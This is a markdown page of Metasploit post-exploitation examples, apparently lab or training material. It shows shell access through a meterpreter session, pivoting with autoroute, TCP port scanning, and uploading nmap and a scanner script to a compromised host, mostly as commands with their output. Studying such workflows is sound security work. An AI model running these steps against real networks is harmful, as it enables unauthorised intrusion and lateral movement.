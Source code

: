 ### Example 2: Post-Exploitation Network Discovery
```bash
# Phase 1: Establish shell from meterpreter session
meterpreter > shell
Process 801 created.
Channel 0 created.

# Phase 2: Network interface discovery
ip addr

# Output: Network interfaces showing eth0 and eth1 with different subnets
# eth0: 192.63.4.3/24 (original network)
# eth1: 192.180.108.2/24 (pivot network)

# Phase 3: Add route for network pivoting
# Background the session first (CTRL+Z)
meterpreter > background
msf6 exploit(unix/webapp/xoda_file_upload) > run autoroute -s 192.180.108.2

# Output: Route added to 192.180.108.2/255.255.255.0 via 192.63.4.3
```

### Example 3: Auxiliary Module Port Scanning
```bash
# Phase 1: Select and configure port scanner
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.180.108.3
msf6 auxiliary(scanner/portscan/tcp) > set verbose false
msf6 auxiliary(scanner/portscan/tcp) > set ports 1-1000
msf6 auxiliary(scanner/portscan/tcp) > exploit

# Output: Port scan results
# [+] 192.180.108.3: - 192.180.108.3:22 - TCP OPEN
# [+] 192.180.108.3: - 192.180.108.3:21 - TCP OPEN
# [+] 192.180.108.3: - 192.180.108.3:80 - TCP OPEN
# [*] 192.180.108.3: - Scanned 1 of 1 hosts (100% complete)
```

### Example 4: Session Management and File Transfer
```bash
# Phase 1: Upload tools to compromised system
meterpreter > upload /root/static-binaries/nmap /tmp/nmap
# [*] Uploading: /root/static-binaries/nmap → /tmp/nmap
# [*] Uploaded -1.00 B of 5.82 MiB (0.0%): /root/static-binaries/nmap → /tmp/nmap
# [*] Completed: /root/static-binaries/nmap → /tmp/nmap

meterpreter > upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
# [*] Uploading: /root/bash-port-scanner.sh → /tmp/bash-port-scanner.sh
# [*] Completed: /root/bash-port-scanner.sh → /tmp/bash-port-scanner.sh

# Phase 2: Execute uploaded tools
meterpreter > shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh

# Phase 3: Run port scan on pivot network
./bash-port-scanner.sh 192.180.108.3

# Output: Discovered open ports
# port 21 is open (FTP)
# port 22 is open (SSH)
# port 80 is open (HTTP)
```
